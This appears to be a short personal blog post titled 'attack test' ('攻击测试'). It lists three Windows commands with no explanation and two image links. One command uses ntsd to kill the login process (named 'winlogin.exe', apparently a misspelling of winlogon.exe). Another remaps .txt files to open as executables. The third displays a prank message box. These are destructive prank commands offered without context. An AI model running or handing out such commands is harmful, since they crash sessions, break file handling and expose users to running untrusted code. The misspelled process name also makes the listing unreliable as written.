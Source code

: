```yaml
---
abbrlink: ''
categories: []
date: '2025-02-13T21:16:00.604317+08:00'
tags: []
title: 攻击测试
updated: '2025-02-13T21:21:18.148+08:00'
---
```

ntsd -c -q -pn winlogin.exe

assoc .txt=.exefile

msgbox "我最帅"

![https://cdn.jsdelivr.net/gh/a52948/images/Qexo/25/2/image_baaf9579c19c26f80ff8cdd065c0879f.png](https://cdn.jsdelivr.net/gh/a52948/images/Qexo/25/2/image_baaf9579c19c26f80ff8cdd065c0879f.png)

![https://cdn.jsdelivr.net/gh/a52948/images/Qexo/25/2/image_3f06cf7f3f9ba1c1e3aa45f3d5b5b4fe.png](https://cdn.jsdelivr.net/gh/a52948/images/Qexo/25/2/image_3f06cf7f3f9ba1c1e3aa45f3d5b5b4fe.png)
